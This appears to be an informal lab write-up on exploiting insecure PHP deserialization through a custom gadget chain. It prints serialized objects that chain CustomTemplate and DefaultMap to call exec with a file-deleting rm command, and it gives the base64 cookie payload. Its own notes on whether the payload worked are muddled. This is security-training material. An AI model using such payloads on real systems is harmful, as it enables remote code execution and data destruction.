

## know how deserialization Lab8 :Developing a custom gadget chain for PHP deserialization

```bash
## know how deserilization php gadget chain
## know how php deserilization php
## know how deserialization php with code whitebox
```
This lab uses a serialization-based session mechanism. By deploying a custom gadget chain, you can exploit its insecure deserialization to achieve remote code execution. To solve the lab, delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter


1. inspect the website


We found /cgi-bin/libs/CustomTemplate.php . now we can see in the explorer or burpsuite adding ~ in the end


In the code we can see DefaultMap class that call the function callback. 


2. We try deencode the token



```bash
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"md3a8bg4xxlgzgqnhcq4dsmt5x7qralx";}
```
To solve the lab, delete the morale.txt file from Carlos's home directory.

We need call customtemplate and set parameter default_desc_type with the exec function, in this case its rm /home/carlos/morale.txt

Second we need call defaultmap form realice callback exec.

```bash
echo "customtemplate" | wc -c
15

echo default_desc_type | wc -c
18

echo "rm /home/carlos/morale.txt" | wc -c
27

echo "defaultmap" | wc -c 
11

echo "callback" | wc -c
9
echo "exec" | wc -c
5
```


We have two object

One is CustomTemplate with default_desc_type and desc


```bash
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";}
```
Second is DefaultMap with callback

```bash
O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}
```

Not run adding second to first. We can add into the first object the second object.

```bash

O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI2OiJybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czo0OiJkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjg6ImNhbGxiYWNrIjtzOjQ6ImV4ZWMiO319

Not run, but if we change in the cookie yes... mmm, we can try again the first step

```


!!!NOT RUN, we need use the before case....!!!! we can try again the first step, we need reset the lab and remove cookies from my explorer... ok the lab have removed the morale... we need wait to auto reset the laboratorie

If we put the two object not run

